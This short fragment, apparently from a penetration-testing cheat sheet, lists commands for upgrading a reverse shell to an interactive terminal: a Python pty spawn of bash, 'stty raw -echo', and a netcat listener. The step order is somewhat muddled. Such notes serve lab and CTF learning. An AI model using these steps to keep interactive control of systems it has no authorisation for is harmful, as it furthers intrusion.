 ### 1
```
python -c 'import pty; pty.spawn(\"/bin/bash\")'
export TERM=xterm
```
Press (ctrl+Z)
```
stty raw -echo
nc -lnvp <port>
fg
```
